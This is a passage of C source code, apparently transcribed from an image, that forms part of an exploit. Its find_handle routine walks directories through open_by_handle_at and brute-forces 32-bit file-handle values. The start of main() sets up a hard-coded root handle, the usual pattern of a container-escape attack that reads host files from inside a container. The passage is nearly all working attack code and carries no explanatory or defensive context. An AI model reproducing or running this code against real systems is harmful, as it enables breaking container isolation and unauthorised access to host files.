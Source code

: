 ```c
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR * dir = NULL;
struct dirent * de = NULL;
path = strchr(path, '/');
// recursion stops if path has been resolved
if (!path) {
memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
oh -> handle_type = 1;
oh -> handle_bytes = 8;
return 1;
}
++path;
fprintf(stderr, "[*] Resolving '%s'\n", path);
if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
die("[-] open_by_handle_at");
if ((dir = fdopendir(fd)) == NULL)
die("[-] fdopendir");
for (;;) {
de = readdir(dir);
if (!de)
break;
fprintf(stderr, "[*] Found %s\n", de -> d_name);
if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
ino = de -> d_ino;
break;
}
}
fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
if (de) {
for (uint32_t i = 0; i < 0xffffffff; ++i) {
outh.handle_bytes = 8;
outh.handle_type = 1;
memcpy(outh.f_handle, & ino, sizeof(ino));
memcpy(outh.f_handle + 4, & i, sizeof(i));
if ((i % (1 << 20)) == 0)
fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
closedir(dir);
close(fd);
dump_handle( & outh);
return find_handle(bfd, path, & outh, oh);
}
}
}
closedir(dir);
close(fd);
return 0;
}
int main(int argc, char * argv[]) {
char buf[0x1000];
int fd1, fd2;
struct my_file_handle h;
struct my_file_handle root_h = {
.handle_bytes = 8,
.handle_type = 1,
.f_handle = {
0x02,
```